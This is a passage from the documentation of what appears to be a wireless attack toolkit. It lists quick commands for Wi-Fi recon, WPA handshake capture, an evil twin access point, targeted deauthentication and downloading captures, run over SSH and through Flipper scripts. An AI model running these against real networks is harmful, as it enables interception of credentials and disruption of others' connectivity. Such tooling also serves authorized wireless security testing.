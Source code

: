 ### Temporary Files

```
/tmp/scan_*                 Temporary scan files
/tmp/*.cap                  Temporary capture files
```

---

## Appendix: Quick Command Cards

### SSH Quick Commands

```bash
# Connect
ssh root@192.168.178.122

# Quick Recon
./01-recon-pipeline.sh wlan0 30

# Capture Handshake
./02-handshake-capture.sh <BSSID> <CH> '<ESSID>'

# Evil Twin
./03-evil-twin.sh <BSSID> <CH> '<ESSID>' wlan0 wlan1 true

# Deauth Single
./04-deauth-campaign.sh single <BSSID>

# Monitor
./05-network-monitor.sh wlan0 15

# View Results
cat /root/recon/*.csv
cat /root/captures/*.log

# Download
scp root@192.168.178.122:/root/captures/*.cap ./
```

### Flipper Quick Commands

```
# List Scripts
bh script scan

# Recon
bh script run wifi_recon

# Set Target (via SSH first)
# Create /root/target.conf

# Capture
bh script run capture_handshake

# Evil Twin
bh script run evil_twin

# Deauth
bh script run deauth_target

# Monitor
bh script run network_monitor

```